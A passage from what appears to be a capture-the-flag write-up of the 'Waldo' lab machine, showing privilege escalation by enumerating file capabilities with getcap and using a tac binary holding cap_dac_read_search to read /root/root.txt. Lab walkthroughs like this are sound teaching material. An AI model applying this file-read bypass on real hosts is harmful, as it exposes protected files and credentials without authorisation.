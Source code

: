 So, both files are owned by the same user and do not have the SUID bit set... Why is the v0.1 file able to read log files then?

Let's look at file capabilities:

```
monitor@waldo:~$ getcap -r *
app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

The `cap_dac_read_search` capability is used to `Bypass file read permission checks and directory read and execute permission checks`. So basically, if a file has this permission it can read anything.

We can't use this file to read anything other than log files but maybe there are other similar files on the host:

```
monitor@waldo:~$ getcap -r /* 2>/dev/null
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
/usr/bin/tac = cap_dac_read_search+ei
```

What is this `tac` binary?

```
monitor@waldo:~$ /usr/bin/tac --help
Usage: /usr/bin/tac [OPTION]... [FILE]...
Write each FILE to standard output, last line first.
```

Ok, we can use this to read files, let's grab root.txt and finish this box:

```
monitor@waldo:~$ tac /root/root.txt
8fb67c<redacted>
```